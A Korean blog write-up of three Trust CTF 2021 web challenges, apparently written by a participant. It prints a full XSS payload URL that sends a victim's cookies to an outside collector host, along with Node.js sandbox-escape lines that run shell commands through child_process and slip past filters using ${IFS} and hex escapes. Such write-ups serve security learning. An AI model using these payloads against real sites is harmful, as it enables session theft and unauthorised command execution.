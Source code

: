 ```yaml
---
layout: post
date: 2021-02-28 00:00:10
title: "Trust CTF 2021 Write Up"
categories: CTF
tags: [XSS, ReDos, Javascript]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/home.png?raw=true)

오늘은 디미고의 Trust라는 팀에서 CTF를 주최해서 참여를 했었습니다. 개인적인 일도 있고 해서 아침부터 참여하지 못 하고, 오후에 조금 참여를 했습니다.

---
## <span style="color:#21C587"></span> (Web) babyxss [270 pts]

> babyxss 문제는 DOMPurify Bypass로 위장한 간단한 XSS 문제입니다.

```php
<?php
require_once("secrets.php");
# This Challenge using newest version DomPurify..! Maybe unexploitable!!

if(isset($_GET['name'])) {
    header("content-security-policy: base-uri 'self'; block-all-mixed-content; connect-src 'self';");
    header('X-Frame-Options: DENY');
    echo "<h1 id='name'>Hello </h1>";
    echo '<script src="https://code.jquery.com/jquery-3.5.1.min.js"integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>';
    echo "<script type='text/javascript' src='https://cure53.de/purify.js'></script><script>var name='". base64_encode($_GET['name']) ."';document.getElementById('name').innerHTML += DOMPurify.sanitize($('<p>').html(atob(name)).text())</script>";
}

show_source(__FILE__);
```
문제로 들어오면 위와 같은 코드가 나오는데 보면 CSP도 걸려 있고, 밑에는 DOMPurify를 이용해서 XSS를 대응하고 있는 것을 볼 수 있습니다. 그래서 그냥 DOMPurify Bypass Payload를 아무 거나 삽입해서 트리거가 되길래 쿠키를 탈취해서 플래그를 얻었습니다.<br>

하지만 트리거가 된 이유는 DOMPurify를 우회해서가 아닙니다. DOMPurify는 최신 버전을 사용하고 있기 때문에 우회하는 건 불가능했습니다. 

```javascript
$('<p>').html(atob(name)).text()
```
하지만 위 코드를 `sanitize()` 메서드의 인자로 넘겨주고 있는 것을 볼 수 있습니다. 바로 저기서 DOM 내부에 잠시 들어가게 되는데 저때 XSS가 트리거가 되는 것 입니다. 그래서 일반적인 페이로드를 이용해서도 XSS트리거를 할 수 있습니다.

```
https://xss.trustctf.xyz/?name=%3Csvg%3E%3C/p%3E%3Cstyle%3E%3Ca%20id=%22%3C/style%3E%3Cimg%20src=1%20onerror=location.href=%27https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?f=%27.concat(document.cookie)%3E%22%3E
```

> FLAG : TRUST{cf909172b91c8bf3f70c0e71f2809f36}

---
## <span style="color:#21C587"></span> (Web) FLAG Checker [1000 pts]

> FLAG Checker 문제는 간단한 ReDos 문제입니다. 이론만 저번에 공부하고 처음 해보는데 그냥 신기한 기법인 거 같습니다. 

```php
Wrong.... <?php
    include "./secret.php";
    $result = preg_match("/{$_GET['flag']}/", $flag);
    if ($flag === $_GET['answer'] && $result === 1) {
        echo $flag;
    }
    else {
        echo "Wrong....";
    }

    highlight_file(__FILE__);
?>
```
문제로 들어오면 위와 같이 나오는데 얼마전에 이런 문제를 본적이 있어서 바로 ReDos가 생각이 났고, 해당 기법으로 슥삭 해주니 플래그가 나왔습니다. 해당 문제와 비슷한 문제가 나중에 webhacking.kr에도 올라온다고 해서 따로 익스 코드는 올리지 않겠습니다.

> FLAG : TRUST{2ef0c0b759425eed6d3932c109e0fe74}

---
## <span style="color:#21C587"></span> (Web) nodejail (Not Solve) [400 pts]

> nodejail 문제는 간단한 제일문제 입니다.

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/jail.png?raw=true)

문제로 들어오면 그냥 입력창 하나가 보입니다. Javasript 코드를 입력해주면 여러가지 문자가 필터링 걸린 것을 확인할 수 있습니다.<br>

```javascript
require(`child_process`).execSync(`c?t${IFS}~~`).toString()
```
대회 당시에는 위와 같이 ${IFS}를 이용해서 공백을 우회하는 방식을 이용해서 진행하고 있었습니다. 하지만 위와 같이 아무리 해봐도 `err`만 반환할 분 아무 일도 일어나지 않아 그냥 포기 했었습니다.

```javascript
require(`fs`).readdirSync(`./`)
```
대회가 끝나고 승주님에게 물어보니 `fs` 모듈을 이용해서 디텍터리 탐색을 하는 코드를 받을 수 있었다. 위 코드를 보고 한 참 어이가 없었다. `fs`를 모듈을 이용해서 파일을 읽고, 쓰고만 되는 줄 알았는데 알고 보니 디렉터리를 탐색할 수 있다는 것을 처음 알았기 때문이다.

```javascript
require(`child_process`).execSync(`\x63at\x20T\x2a`).toString()
```
그리고 두 번째는 경준님은 어케 풀었나 궁금해서 물어보니 위와 같이 위와 같이 16진수를 이용해서 공백을 우회한 것을 보고, 또 어이가 없었다..

> TRUST{th1s_1s_3xtrem3_n0d3_j41l}

---
